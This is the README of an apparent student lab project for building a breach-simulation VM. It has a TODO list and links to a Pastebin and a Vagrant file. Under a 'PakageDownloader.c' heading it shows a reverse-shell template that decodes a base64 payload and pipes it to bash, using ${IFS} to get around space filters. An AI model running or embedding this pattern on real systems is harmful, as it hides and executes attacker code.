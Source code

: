 # BAU-project
## TODO (Zeyad)
1. SSH password auhentication
2. SSH keys for users
3. Add omar webserver files
4. Finally (Test everything)
5. after finally ( apt install forensics-all) (optional)

### PakageDownloader.c
```bash
# Reverse shell command
echo${IFS}<BASE64-Encoded-Payload>|base64${IFS}-d|bash
```
## Breach similation
```
https://pastebin.com/UycbfwRP
```
### Vagrant file
- This is temporary until everything is finished then i will create a clean public repository with this file as a release 
```
https://drive.google.com/file/d/1SqLbSoCzwea5ZSVQobo-JHz9yslkiKlE/view?usp=sharing
```
